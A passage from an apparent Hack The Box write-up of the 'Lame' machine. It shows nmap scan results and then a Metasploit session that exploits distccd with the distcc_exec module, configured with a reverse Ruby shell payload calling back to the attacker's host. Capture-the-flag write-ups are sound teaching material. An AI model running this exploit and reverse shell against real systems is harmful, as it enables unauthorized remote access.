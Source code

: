 ```
Aggressive OS guesses: DD-WRT v24-sp1 (Linux 2.4.36) (92%), Arris TG862G/CT cable modem (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.4.27 (92%), Linux 2.6.22 (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Supermicro IPMI BMC (Linux 2.6.24) (92%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-08-16T22:57:20-04:00
|_clock-skew: mean: 2h00m05s, deviation: 2h49m45s, median: 2s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.76 seconds
                                                               
```

## Gaining Foothold
Here, the most interesting service appears to be the `distccd` which is running on port 3632. Right from a quick google search we can find that the `distccd v1` can be exploited using [metasploit](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec/).

```
┌──(kali㉿kali)-[~/Desktop/htb/lame]
└─$ msfconsole 
msf6 > search distcc

Matching Modules
================

   #  Name                           Disclosure Date  Rank       Check  Description
   -  ----                           ---------------  ----       -----  -----------
   0  exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/misc/distcc_exec

msf6 > use 0
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST 10.10.16.4
LHOST => 10.10.16.4
msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse_ruby
payload => cmd/unix/reverse_ruby
msf6 exploit(unix/misc/distcc_exec) > run

[*] Started reverse TCP handler on 10.10.16.4:4444 
```
